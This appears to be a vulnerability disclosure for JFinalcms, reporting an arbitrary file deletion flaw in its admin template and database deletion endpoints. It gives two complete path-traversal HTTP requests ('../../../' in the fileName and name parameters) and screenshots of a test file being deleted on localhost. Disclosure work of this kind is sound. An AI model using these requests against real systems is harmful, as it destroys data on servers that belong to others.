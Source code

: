 Any file deletion vulnerability

Project Address
https://gitee.com/heyewei/JFinalcms


Project Issues
https://gitee.com/heyewei/JFinalcms/issues/IAOSJG  


https://gitee.com/yuhuanyu/cve/blob/master/README.en.md

Num.1


POST /admin/template/delete?fileName=../../../../../secTest/1.txt&directory=../ HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 0
Origin: http://localhost:8888
Connection: close
Referer: http://localhost:8888/admin/content
Cookie: JSESSIONID=node036kne8kfiwz0ep1x1h0sd5o50.node0; listQuery=categoryId%3D
Priority: u=0

New built 1.txt

<img width="772" alt="image" src="https://github.com/user-attachments/assets/a4b47d8f-d4d5-4506-833e-385c4a38d783">

Make a request

<img width="772" alt="image" src="https://github.com/user-attachments/assets/77c8e80e-9d09-459c-b5bb-1d153de3a404">

1.txt already deleted

<img width="783" alt="image" src="https://github.com/user-attachments/assets/ab51ac5a-ef0c-4408-a6e3-bb70559337e1">

code analysis
om.cms.controller.admin.TemplateController

<img width="771" alt="image" src="https://github.com/user-attachments/assets/6b460123-7d9b-422e-a15a-ca3bab100bc7">





Num.2


GET /admin/database/delete?name=../../../../../../../secTest/4.txt HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=node07xt45l5ni0kg1knd85k9f4gs50.node0; listQuery=directory%3Ddefault
Priority: u=4
